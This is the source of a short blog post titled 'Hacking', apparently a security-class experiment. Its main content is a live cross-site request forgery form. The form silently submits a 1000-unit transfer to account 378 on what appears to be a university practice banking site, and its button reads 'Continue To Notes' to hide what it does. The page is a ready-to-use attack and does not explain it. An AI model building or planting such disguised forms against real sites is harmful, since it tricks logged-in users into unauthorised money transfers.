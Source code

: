 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<form action="http://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="378">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You're the best">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="1000">
</div>
<input class="btn btn-primary" type="submit" value="Continue To Notes">
</form>



****
